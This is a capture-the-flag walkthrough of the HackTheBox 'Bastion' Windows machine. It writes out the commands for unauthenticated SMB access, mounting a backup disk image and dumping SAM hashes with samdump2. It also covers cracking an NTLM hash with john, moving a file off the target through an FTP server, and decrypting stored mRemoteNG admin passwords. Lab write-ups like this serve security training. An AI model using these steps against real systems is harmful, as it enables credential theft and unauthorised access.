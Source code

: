 # Bastion [htb](https://app.hackthebox.com/machines/Bastion)
![bastion-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/bastion-01.png)


## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/hosts-02.png)


Now we can enumerate the target with:

`nmap -sC -sV -A -p- bastion.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/nmap-res-03.png)

We have the following:

+ SSH on port 22. 
+ RPC endpoint mapper on port 135.
+ Netbios on port 139. 
+ SMB on port 445. 
+ HTTP API ports 5985 and 47001. 
+ Other RPC related ports. 

The target seems to be running a 2016 Windows server. Lets start by taking a look at the SMB, perhaps we
can access resources without authentication? After that well take a look at the HTTP API ports. 


## SMB port 445

Lets see if we can list out the shares with a null session:

`smbclient -N -L \\\\bastion.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shares-04.png)

Yes we can, this is bad. If we can list information without authintication we can probably connect 
to a share as well. lets try the the `Backups` share:

`smbclient --no-pass //bastion.htb/Backups`

![backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/backups-05.png)

We can see we have a `WindowsImageBackup` folder a `.tmp` file and a `note.txt`
The note simply tells us not to copy the eniter Backups share through the VPN:

![note-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/note-06.png)

The `.tmp` file is empty, but the most interesting thing here is the `WindowsImageBackup` folder. 
If we `cd` into the following path inside it with: 

`cd \WindowsImageBackup\L4mpje-PC\"Backup 2019-02-22 124351"`

Then run `ls` we can see the following:

![vhd-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/vhd-07.png)

There are more `.xml` files below, but we are primarly interested in thoes `.vhd` files. 
VHD (Virtual Hard Disk) files are disk image formats that store a computer's entire hard drive.

The first disk is the boot sector, ive had a look around it, not much there. The second disk is what we want. 

Once we download the disk to your kali machine, we can examine the `.vhd` files with a 
suite of tools called `libguestfs-tools`, you may need to install this on your system with:

`apt install libguestfs-tools`.

Now we can list out the partitions on the virtual disk with:

`virt-filesystems -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`

![partitions-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/partitions-08.png)


Only one partition, Lets mount it with:

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -m /dev/sda1 --ro /mnt/bastion`

If you pay close attention, youll notice this is the Windows OS installation folder (the C drive).
This means that the SAM file is in here. If we cd into:

`Windows/System32/config`

We can see the SAM file, along with the syskey to read it: 

![sam-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/sam-09.png)

Now all we need to do to read this file is use `samdump2`:

`samdump2 SYSTEM SAM`

![samdump-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/samdump-10.png)

I've tried to use `psexec` to get a shell with the NTLM hash, but that failed. I also tried other tools from the `impacker` suite, but nothing worked. So i decided to decrypt the NTLM hash locally and try to log in to the SSH. 

First, save the NTLM portion of the hash to a file: 

`echo '26112010952d963c8dc4217daec986d9' > ntlm_hash.txt`

Next, use `john` to decrypt the hash:

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm_hash.txt`

![decrypt-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-11.png)

Now we can login to the ssh:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shell-12.png)

## Privilege Escalation


If we take a look at our user's `AppData/Roaming` folder we can see an interesting app:

![remoteng-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/remoteng-13.png)

mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager for Windows. remote connection means passwords.


If we cd into this folder we can find the config file that stroes the accounts:

![app-dir-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/app-dir-14.png)

If we open this file we can see the following:

![admin-hash-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/admin-hash-15.png)

The admin probably used this software to connect to the Domain Controller. Now we need to decrypt the 
password. 

If we search google we can find the following [Github](https://github.com/gquere/mRemoteNG_password_decrypt) This tool should help us decrypt the password. All we nned is to transfer the `confCons.xml` file to our kali machine. 

To do that i start an FTP server with:

`python -m pyftpdlib -p 21 --write`

Then i connect to the FTP from the windows target and copy the file over:

![ftp-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/ftp-16.png)


Now we can decrypt the file with:

`./mremoteng_decrypt.py confCons.xml`

![decrypt-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-17.png)


The low-level user password does match what we found earlier in the SAM file, lets try to connect to the 
SSH as the admin user: 

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/root-18.png)
